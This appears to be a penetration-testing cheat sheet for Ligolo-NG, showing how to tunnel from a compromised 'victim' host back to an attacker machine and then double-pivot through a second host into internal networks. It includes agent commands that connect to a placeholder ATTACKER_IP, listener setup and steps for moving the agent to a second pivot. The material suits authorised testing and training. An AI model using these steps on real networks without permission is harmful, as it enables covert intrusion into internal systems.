

Ligolo‑NG is a **reverse tunneling and pivoting tool** that allows you to create a secure tunnel between a compromised machine (running the _agent_) and your attacker machine (running the _proxy_). Once the tunnel is established, you can route traffic through the victim and access internal networks that are otherwise unreachable.

## Basic Usage
### 1. Download Proxy & Agent

On the **attacker machine**:
```bash
# Proxy
wget https://github.com/nicocha30/ligolo-ng/releases/<latest>/download/ligolo-ng_proxy_Linux_64bit.tar.gz
tar -xvf ligolo-ng_proxy_Linux_64bit.tar.gz

# Agent
wget https://github.com/nicocha30/ligolo-ng/releases/<latest>/download/ligolo-ng_agent_Linux_64bit.tar.gz
tar -xvf ligolo-ng_agent_Linux_64bit.tar.gz
```

### 2. Configure TUN Interface (Attacker)

```bash
# Create tun interface
sudo ip tuntap add user <your_kali_user> mode tun ligolo

# Remove conflicting route (if exists)
sudo ip route del 192.168.98.0/24 dev tun0

# Bring interface up
sudo ip link set ligolo up

# Add target internal network route
sudo ip route add 192.168.98.0/24 dev ligolo
```

Check with:
```bash
ip route
```

### 3. Start Proxy (Attacker)
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```


### 4. Run Agent (Victim)

Transfer the agent binary to the victim machine, then run:
```bash
./agent -connect <ATTACKER_IP>:443 -ignore-cert
```

### 5. Manage Sessions (Attacker)

Inside the proxy console:
```bash
session          # list active sessions
tunnel_list     # show tunnels
start            # start the tunnel for the chosen session
```


---

## Double pivoting

**Double pivoting** is used when the final target network is **two hops away** and the second compromised host cannot reach your attacker machine directly.

```
Attacker → Pivot 1 → Pivot 2 → Internal Network
```

- **Pivot 1** can reach you (internet / VPN reachable).
    
- **Pivot 2** can only reach Pivot 1.
    
- You route traffic through both using Ligolo tunnels.


### 1. First Pivot (Already Working)

You should already have:

```bash
# attacker
./proxy -selfcert -laddr 0.0.0.0:443
```

On Pivot 1:

```bash
./agent -connect <ATTACKER_IP>:443 -ignore-cert
```

Inside proxy:

```bash
session
start
```


### 2. Transfer Agent to Pivot 2

From Pivot 1, move the agent binary to the second machine.

Example:

```bash
scp agent user@PIVOT2:/tmp/
```

(Any transfer method works.)

### 3. Create Listener on Pivot 1 

From the Ligolo session on your kali select Pivot‑1 session:

```bash
session
```

Then create a listener:

```bash
listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601
```

This command creates a listener on porrt 4444 of Pivot‑1. Any connection received is forwarded to the Ligolo proxy.

Verify:

```bash
listener_list
```


### 4. Connect Pivot 2 Through Pivot 1

On Pivot‑2 (NO internet access):

```bash
./agent -connect <PIVOT1_IP>:4444 -ignore-cert
```

Now Pivot‑2 appears as a **new session** in the proxy.




### 5. Create Second TUN Interface 

Each pivot requires a different interface, so you will need to create anew interface on your kali machine and add a new route.

```bash
sudo ip tuntap add user <kali_user> mode tun ligolo2
sudo ip link set ligolo2 up
sudo ip route add <internal_network>/24 dev ligolo2
```


### 6. Start Tunnel for Pivot 2
If you want to communicate with the  network reachable with this new session, you need to choose the second session (select it with the arrows) and type:

```bash
start --tun ligolo2
```

### 7. Test Access

```bash
fping -a -g 172.16.6.0/24
```

Then test services:

```bash
xfreerdp3 /v:172.16.6.45 ...
ssh user@172.16.6.45
```
